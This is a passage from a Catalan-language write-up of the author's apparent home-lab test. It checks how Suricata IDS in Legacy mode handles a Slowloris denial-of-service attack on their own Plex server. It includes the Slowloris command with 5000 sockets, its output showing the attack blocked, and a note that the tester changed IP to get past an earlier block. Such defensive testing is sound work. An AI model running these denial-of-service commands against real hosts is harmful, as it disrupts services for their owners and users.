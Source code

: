 El tràfic del Firewall ha detectat una pujada sobtada, ja que Suricata bloqueja amb el mode Legacy.

<img src="..\assets\images\pentesting\direct\pico_slowloris_150.png" alt="Bloqueig direccions IP Suricata " width="700" style="display: block; margin-left: auto; margin-right: auto; margin-bottom: 12px;"/>


> #### Apunt: Mode Legacy o Mode Inline de Suricata 
> El mode Inline de suricata és capaç de detectar els atacs al moment, ja que analitza els paquets alhora que van entrant. En canvi, el mode Legacy tarda una mica més així gastant molts menys recursos. Com que el meu hardware és limitat, estic emprant el mode Legacy, per això veim el registre, ja que l'atac ha tingut una petita finestra per a actuar.

### Slowloris - 5000 Sockets.

Per a fer aquesta prova després del bloqueig de la prova anterior, hem canviat la IP.

```bash
@extern $ python3 slowloris.py plex.espardenya.me -s 5000
[04-08-2022 18:29:27] Attacking plex.espardenya.me with 5000 sockets.
[04-08-2022 18:29:27] Creating sockets...
[04-08-2022 18:29:31] Sending keep-alive headers... Socket count: 0
[04-08-2022 18:29:51] Sending keep-alive headers... Socket count: 0
[04-08-2022 18:30:10] Sending keep-alive headers... Socket count: 0
[04-08-2022 18:30:31] Sending keep-alive headers... Socket count: 0
[04-08-2022 18:30:50] Sending keep-alive headers... Socket count: 0
```

<img src="..\assets\images\pentesting\direct\pico_slowloris_5000.png" alt="Bloqueig direccions IP Suricata " width="700" style="display: block; margin-left: auto; margin-right: auto; margin-bottom: 12px;"/>
